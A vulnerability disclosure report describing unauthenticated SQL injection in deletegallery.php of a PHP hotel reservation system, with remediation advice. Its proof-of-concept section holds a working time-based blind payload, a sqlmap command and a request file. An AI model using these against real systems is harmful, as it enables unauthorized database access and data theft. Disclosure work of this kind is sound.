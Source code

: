 # Online Hotel Reservation System In PHP With Source Code  deletegallery.php  sql injection

# NAME OF AFFECTED PRODUCT(S)

- Online Hotel Reservation System In PHP With Source Code

## Vendor Homepage

- [Online Hotel Reservation System In PHP With Source Code - Source Code & Projects](https://code-projects.org/online-hotel-reservation-system-in-php-with-source-code/)

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

- K1nako

## VERSION(S)

- V1.0

## Software Link

- https://download.code-projects.org/details/f2af5165-f165-4d1c-9648-394dc5119f9d

# PROBLEM TYPE

## Vulnerability Type

- SQL injection

## Root Cause

- A SQL injection vulnerability was found in the 'deletegallery.php' file of the 'Online Hotel Reservation System In PHP With Source Code' project. The reason for this issue is that attackers inject malicious code from the parameter "id" and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

# DESCRIPTION

- During the security review of "Online Hotel Reservation System In PHP With Source Code", K1nako discovered a critical SQL injection vulnerability in the "deletegallery.php" file. This vulnerability stems from insufficient user input validation of the 'id' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.

# No login or authorization is required to exploit this vulnerability

# Vulnerability details and POC

## Vulnerability type:

- time-based blind

## Vulnerability location:

- 'id' parameter

## Payload:

```
id=1'+(SELECT 0x78444778 WHERE 8849=8849 AND (SELECT 7681 FROM (SELECT(SLEEP(5)))IuYL))+'
```

```
Parameter: #1* (URI)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://192.168.248.130:8885/admin/deletegallery.php?id=1'+(SELECT 0x78444778 WHERE 8849=8849 AND (SELECT 7681 FROM (SELECT(SLEEP(5)))IuYL))+'
    Vector: AND (SELECT [RANDNUM] FROM (SELECT(SLEEP([SLEEPTIME]-(IF([INFERENCE],0,[SLEEPTIME])))))[RANDSTR])
```

![image-20250728165401550](assets/image-20250728165401550.png)



## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:

```
python3 sqlmap.py -r C:\Users\14420\Desktop\data.txt --dbs -v 3 --batch --level 5
```

```
//data.txt
GET /admin/deletegallery.php?id=1* HTTP/1.1
Host: 192.168.248.130:8885
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=erobstmt8j7vlp6ka4ath65un3
Connection: keep-alive

```

# Attack results

![image-20250728165625314](assets/image-20250728165625314.png)

# Suggested repair



1. **Use prepared statements and parameter binding:** Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.
2. **Input validation and filtering:** Strictly validate and filter user input data to ensure it conforms to the expected format.
3. **Minimize database user permissions:** Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.
4. **Regular security audits:** Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.
